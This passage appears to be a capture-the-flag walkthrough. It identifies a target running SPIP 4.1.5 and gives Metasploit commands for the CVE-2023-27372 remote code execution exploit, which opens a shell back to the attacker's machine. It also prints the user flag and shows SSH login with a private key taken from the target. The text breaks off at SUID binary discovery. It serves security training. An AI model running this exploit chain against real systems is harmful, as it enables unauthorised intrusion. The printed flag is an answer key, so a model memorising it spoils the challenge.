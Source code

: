 Clicking into it:

<img width="1854" height="1048" alt="Screenshot From 2025-08-26 15-01-47" src="https://github.com/user-attachments/assets/80437516-320e-4567-97e0-d1fde8d57173" />

This reveals everything needed about the vulnerable version.

---

## Exploitation (SPIP RCE)

The CMS in use is **SPIP 4.1.5**, which is vulnerable to RCE.
Reference: [CVE-2023-27372 GitHub PoC](https://github.com/nuts7/CVE-2023-27372).

Using Metasploit:

```bash
msfconsole
search spip
use exploit/multi/http/spip_rce_form
set RHOST <target-ip>
set LHOST <your-ip>
set TARGETURI /spip
run
```

<img width="1620" height="465" alt="Screenshot From 2025-08-26 15-19-00" src="https://github.com/user-attachments/assets/b0fed0b5-e459-4702-86b8-8b5ba784a4a9" />

After executing, we gain a shell and capture the first flag.

> Q1: User flag
> A1: fa229046d44eda6a3598c73ad96f4ca5

---

## Privilege Escalation

We get a hint: *“Look to the AppArmor by its profile.”*

Checking SSH, we find a private key file that works:

<img width="1854" height="1048" alt="Screenshot From 2025-08-26 15-43-32" src="https://github.com/user-attachments/assets/ef223e9f-be3e-49d3-b285-c02e2d0d8d11" />
<img width="1099" height="376" alt="Screenshot From 2025-08-26 15-53-25" src="https://github.com/user-attachments/assets/794d8762-b59b-40d9-a0ef-a1bdc76dbd0a" />

Login:

```bash
chmod 600 keyfile
ssh -i keyfile think@<target-ip>
```

---

### SUID Binary Discovery

We find a custom SUID binary:
